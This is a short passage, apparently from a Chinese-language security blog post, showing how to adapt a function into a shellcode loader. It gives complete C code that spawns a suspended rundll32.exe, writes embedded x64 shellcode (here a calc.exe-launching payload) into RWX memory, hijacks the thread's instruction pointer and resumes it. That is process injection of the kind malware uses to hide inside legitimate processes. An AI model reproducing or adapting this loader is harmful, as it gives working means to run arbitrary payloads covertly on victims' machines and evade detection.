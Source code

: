 最后的效果如下

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9g3l28vtErBV8evRgfdXOiciaND5h4Bicj233afGucl3p2112E9CRhRLFasb9iaGhgNoEuF6lOs9Xdg/640?wx_fmt=png)

如果需要加载 shellcode，可以改写里面的函数，比如变成下面这样

```
void StartProcess()
{
  unsigned char shellcode_calc[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
    "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
    "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
    "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
    "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
    "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
    "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
    "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
    "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
    "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
    "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
    "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
    "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
    "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
    "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f"
    "\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
    "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
    "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c"
    "\x63\x2e\x65\x78\x65\x00";

  TCHAR CommandLine[] = TEXT("c:\\windows\\system32\\rundll32.exe");

  CONTEXT Context; 
  struct _STARTUPINFOA StartupInfo; 
  struct _PROCESS_INFORMATION ProcessInformation; 
  LPVOID lpBaseAddress;  

  ZeroMemory(&StartupInfo, sizeof(StartupInfo));
  StartupInfo.cb = 104;
  if (CreateProcess(0, CommandLine, 0, 0, 0, 0x44, 0, 0, (LPSTARTUPINFOW)&StartupInfo, &ProcessInformation)) {
    Context.ContextFlags = 1048579;
    GetThreadContext(ProcessInformation.hThread, &Context);
    lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, 0, 0x800u, 0x1000u, 0x40u);
    WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, &shellcode_calc, 0x800u, 0);
    Context.Rip = (DWORD64)lpBaseAddress;
    SetThreadContext(ProcessInformation.hThread, &Context);
    ResumeThread(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hThread);
    CloseHandle(ProcessInformation.hProcess);
  }
}
```
